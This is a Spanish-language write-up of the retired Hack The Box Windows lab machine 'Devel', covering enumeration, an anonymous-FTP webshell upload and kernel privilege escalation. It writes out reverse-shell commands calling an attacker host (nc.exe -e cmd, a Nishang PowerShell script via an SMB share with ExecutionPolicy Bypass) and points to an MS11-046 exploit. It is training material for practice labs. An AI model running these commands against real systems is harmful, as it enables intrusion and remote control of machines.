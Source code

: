 # Devel

![](./images/devel.png)

**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Priviledge Escalation](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|FTP-Web|Kernel|

#
## 2. Enumeracion<a name="id1"></a>

### 2.1 Nmap

* Se lanza un escano **tcp port syns** scan jugando con el **min-rate** para no emitir paquetes más lentos que 5000 paquetes por segundo . Como resultado, se obtiene que los puertos 21 (ftp) y 80 (http) están abiertos.

![](./images/allPorts.png)

* Se lanzan una serie de scripts básicos de enumeración y para detectar la versión del puerto. La salida revela que el puerto 21 (ftp) tiene el acceso "anonymous" habilitado por defecto.

![](./images/targeted.png)

### 2.2 Web

* Haciendo uso de firefox, se analiza el contenido de la página web junto con las herramientas de desarrollador. 

* Destaca un archivo, la imagen **welcome.png**. Mismo nombre que se encuentra en el directorio raiz del ftp.

![](./images/webs.png)

* Se prueba a subir vía ftp un archivo index.html. Si el servicio web hace uso del directorio raiz del servicio ftp para cargar los archivos, éste reproducirá el contenido del index.html.

![](./images/inyeccion.png)

* Wappalycer revela que se trata de un framework ASP.NET por lo que se puede subir una **webshell** en aspx para ejecutar código en la **máquina**.

#
## 3. Explotación<a name="id3"></a>

### 3.1 WebShell

* Haciendo uso de las **seclists** se localiza una cmd.aspx para subir al servidor vía ftp y un nc.exe para entablar una reverse shell.

```ftp
ftp> binary # Muy importante, error muy común
200 Type set to I.

ftp> put cmd.aspx 
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1400 bytes sent in 0.00 secs (16.2822 MB/s)

ftp> put nc.exe 
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.01 secs (3.8814 MB/s)
ftp>
```

### 3.2 Reverse Shell con nc.exe

* El directorio raiz que utiliza ASP.NET es C:\inetpub\wwwroot\.

![](./images/reverse.png)

```bash
C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.20 443
```

```bash 
rlwrap nc -lvnp 443
```

### 3.3 Reverse shell con Nishang

* Compartimos la shell en powershell com **impacket-smbserver** dando soporte a SMB2.

```bash
impacket-smbserver shell . -smb2support
```

* Finalmente se ejecuta el script en powershell. Para ello fue necesario permitir explicitamente la ejecución de scripts en powershell.

```bash
powershell -ExecutionPolicy Bypass \\10.10.14.20\SHELL\Invoke-PowerShellTcp.ps1
```

![](./images/nishang.png)

#
## 4. Priviledge Escalateion<a name="id4"></a>

### 4.1 CVE-2011-1249 - MS11-046

* La forma mas fácil es buscar el copilado  en un repositorio de github. https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2011-1249. Finalmente este copilado se traslada a la máquina y se ejecuta obteniendo privilegios de NT Authority System.

![](./images/elevate.png)





